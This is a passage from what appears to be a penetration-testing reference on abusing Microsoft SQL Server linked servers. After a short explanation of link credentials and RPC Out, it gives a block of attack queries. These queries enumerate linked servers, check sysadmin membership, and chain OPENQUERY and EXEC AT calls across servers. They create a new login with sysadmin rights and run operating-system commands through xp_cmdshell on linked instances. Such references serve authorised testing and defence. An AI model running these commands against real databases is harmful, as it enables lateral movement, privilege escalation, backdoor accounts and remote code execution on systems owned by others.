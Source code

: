 A server link can be configured to use the current security context of the
login, a specified Windows or MSSQL login of the linked server, or be disabled
if no credentials are provided. By default, any login that belongs to the
`PUBLIC` role can query a database through a server link and may thus use the
configured credentials (if any).

Moreover, stored procedures, such as `xp_cmdshell`, can be executed over
a server link, according to the configured login roles and permissions. Note
that outgoing RPC connections, `RPC Out`, need to be enabled on the link to
conduct reconfiguration operations to enable `xp_cmdshell` on the linked
instance.

###### Discovery and exploitation

The `OPENQUERY` and  `EXEC [...] AT` functions can be used to execute SQL
statements on the specified linked server. Note that the statement executed by
`OPENQUERY` must return a value, so a `SELECT 1;` is needed for otherwise
return less queries. Additionally, `RPC Out` must be enabled in order to use
`EXEC [...] AT` statements.

SQL statements can be nested through the `OPENQUERY` and  `EXEC [...] AT`
functions. Thus, server links can be followed from server to server. To escape
the single quote character, inside a string quoted with `'`, it should be
written as `''`.

```sql
-- List the linked servers
SELECT srvname from master..sysservers

-- Check if RPC Out is enabled for the specified linked server
EXEC ('master.dbo.sp_helpdb') AT [<HOSTNAME | IP>\<INSTANCE>]

-- Basic login recon
SELECT * FROM OPENQUERY("<HOSTNAME | IP>\<INSTANCE>", 'SELECT SYSTEM_USER')
SELECT * FROM OPENQUERY("<HOSTNAME | IP>\<INSTANCE>", 'SELECT is_srvrolemember(''sysadmin'')')

-- List linked servers configured of the specified linked server
SELECT * FROM OPENQUERY("<HOSTNAME | IP>\<INSTANCE>", 'SELECT srvname from master..sysservers')

-- Nested queries for basic recon on the second MSSQL instance
SELECT * FROM OPENQUERY("<HOSTNAME1 | IP1>\<INSTANCE1>", 'SELECT * FROM OPENQUERY("<HOSTNAME2 | IP2>\<INSTANCE2>", ''SELECT is_srvrolemember(''''sysadmin'''')'')')
EXEC ('EXEC (''SELECT is_srvrolemember(''''sysadmin'''')'') AT [<HOSTNAME2 | IP2>\<INSTANCE2>];') AT [<HOSTNAME1 | IP1>\<INSTANCE1>]

-- Create an user and give it the sysadmin role
EXEC ('CREATE LOGIN <USERNAME> WITH PASSWORD = ''<PASSWORD>'';') AT [<HOSTNAME | IP>\<INSTANCE>]
EXEC ('EXEC master.dbo.sp_addsrvrolemember ''<USERNAME>'',''sysadmin'';') AT [<HOSTNAME | IP>\<INSTANCE>]
-- Nested in order to create the login on the second MSSQL instance
EXEC ('EXEC (''CREATE LOGIN <USERNAME> WITH PASSWORD = ''''<PASSWORD>'''''') AT [<HOSTNAME2 | IP2>\<INSTANCE2>];') AT [<HOSTNAME1 | IP1>\<INSTANCE1>]
EXEC ('EXEC (''EXEC master.dbo.sp_addsrvrolemember ''''<USERNAME>'''',''''sysadmin'''''') AT [<HOSTNAME2 | IP2>\<INSTANCE2>];') AT [<HOSTNAME1 | IP1>\<INSTANCE1>]

-- xp_cmdshell
EXEC ('xp_cmdshell ''<CMD>''') AT [<HOSTNAME1 | IP1>\<INSTANCE1>]
EXEC ('EXEC (''xp_cmdshell ''''<CMD>'''''') AT [<HOSTNAME2 | IP2>\<INSTANCE2>];') AT [<HOSTNAME1 | IP1>\<INSTANCE1>]
SELECT * FROM OPENQUERY("[<HOSTNAME | IP>\<INSTANCE>]",'EXEC master..xp_cmdshell ''<CMD>''')
-- SELECT 1 must be added if the command executed through xp_cmdshell does not return any result
SELECT * FROM OPENQUERY("[<HOSTNAME | IP>\<INSTANCE>]",'SELECT 1; EXEC master..xp_cmdshell ''<CMD>''')
SELECT * FROM OPENQUERY("[<HOSTNAME1 | IP1>\<INSTANCE1>]", 'SELECT * FROM OPENQUERY("[<HOSTNAME2 | IP2>\<INSTANCE2>]", ''xp_cmdshell whoami;'')');
```